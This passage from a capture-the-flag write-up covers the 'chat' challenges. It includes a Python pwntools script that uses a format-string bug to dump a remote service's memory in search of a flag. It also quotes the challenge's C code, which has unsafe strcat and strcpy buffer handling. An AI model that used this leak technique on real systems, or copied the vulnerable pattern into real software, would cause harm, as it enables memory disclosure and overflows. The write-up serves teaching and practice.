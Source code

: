 ```python
    con.sendline('1')

    for i in range(100, 10000):
        try:
            con.recvuntil(nick + ': ')
            con.sendline('\\%{}$016lx'.format(i))

            bs = con.recvline()[-17:-1].decode()
            bs = [ bs[j*2:j*2+2] for j in range(8) ]
            bs = list(map(lambda x: chr(int(x, 16)), bs))
            print(''.join(bs[::-1])) # note the reverse order because of endianess
        except:
            break

if __name__ == '__main__':
    main()
```

You can then easily pipe the output to a file or f.e. less and inspect the memory. Eventually you will find the flag somewhere :)


<a name="chat3"></a>

## chat III

The 3rd flag was quite similiar to the second one, though the flag is not stored on the stack:

```c
void flag2(char *token, char *dst){
    char path[24] = "flags/flag2/";
    strcat(path, token);
    char *tokens[1];
    int cnt = read_lines(path, tokens);
    if (cnt == -1){
        strcpy(dst, "Flag_Not_this_token");
        return;
    }
    strcpy(dst, tokens[0]);
    free(tokens[0]);
}

// ...

void chat_kisa(char *message, struct user* user){
    struct msg msg;
    strcpy(msg.msg, message);
    msg.time_created = time(NULL);
    flag2(user->token, msg.meta_inf);
    // ..
}

```
